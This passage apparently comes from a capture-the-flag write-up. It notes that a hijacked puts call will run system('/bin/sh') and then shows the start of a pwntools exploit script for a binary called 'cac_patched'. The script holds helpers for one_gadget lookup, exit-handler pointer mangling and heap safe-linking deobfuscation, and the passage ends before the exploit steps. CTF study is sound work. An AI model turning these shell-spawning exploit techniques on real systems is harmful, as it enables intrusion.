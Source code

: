    * The later `puts` will execute `system("/bin/sh")`.


---

## 3. Full Exploit Script

```py
#!/usr/bin/env python3

from dataclasses import dataclass, field
from pwn import *

host = args.HOST or 'localhost'
port = int(args.PORT or 2727)
ssl = args.SSL or False


binary = 'cac_patched'

gdbscript = '''

    c
'''

context.binary = elf = ELF(binary)
context.terminal = ['tmux', 'splitw', '-h']

if os.path.isfile("./libc.so.6"): libc = ELF('./libc.so.6', checksec=False)


# utils
u64 = lambda d: struct.unpack("<Q", d.ljust(8, b"\0"))[0]
u32 = lambda d: struct.unpack("<I", d.ljust(4, b"\0"))[0]
u16 = lambda d: struct.unpack("<H", d.ljust(2, b"\0"))[0]

# credits to spwn by @chino
ru         = lambda *x, **y: p.recvuntil(*x, **y, drop=True, timeout=1)
rl         = lambda *x, **y: p.recvline(*x, **y, keepends=False)
rc         = lambda *x, **y: p.recv(*x, **y)
sla        = lambda *x, **y: p.sendlineafter(*x, **y, timeout=1)
sa         = lambda *x, **y: p.sendafter(*x, **y)
sl         = lambda *x, **y: p.sendline(*x, **y)
sn         = lambda *x, **y: p.send(*x, **y)
logbase    = lambda: log.info("libc base = %#x" % libc.address)
logleak    = lambda name, val: log.info(name+" = %#x" % val)
one_gadget = lambda: [int(i) + libc.address for i in subprocess.check_output(['one_gadget', '--raw', '-l1', libc.path]).decode().split(' ')]

# exit_handler stuff
fs_decrypt = lambda addr, key: ror(addr, 0x11) ^ key
fs_encrypt = lambda addr, key: rol(addr ^ key, 0x11)


# heap stuff
prot_ptr = lambda pos, ptr: (pos >> 12) ^ ptr
def deobfuscate(val):
    mask = 0xfff << 52
    while mask:
        v = val & mask
        val ^= (v >> 12)
        mask >>= 12
    return val

```